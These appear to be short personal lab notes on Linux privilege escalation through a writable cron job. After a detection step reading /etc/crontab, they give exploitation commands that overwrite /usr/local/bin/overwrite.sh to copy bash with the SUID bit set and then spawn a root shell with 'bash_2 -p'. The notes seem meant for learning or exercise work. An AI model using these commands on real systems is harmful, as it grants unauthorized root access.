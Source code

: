 # Detection
---
- `cat /etc/crontab`
	- ![[Pasted image 20250430151627.png]]
- ![[Pasted image 20250430151653.png]]
- We can overwrite the script because of permissions
- ![[Pasted image 20250430154845.png]]

# Exploitation
---
- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/local/bin/overwrite.sh`
- Edit the `overwrite.sh`file:
	- `vi /usr/local/bin/overwrite.sh`
		- `cp /bin/bash /tmp/bash_2`
		- `chmod +s /tmp/bash_2`
- ![[Pasted image 20250430155842.png]]
- `bash_2 -p`
	- ![[Pasted image 20250430155859.png]]
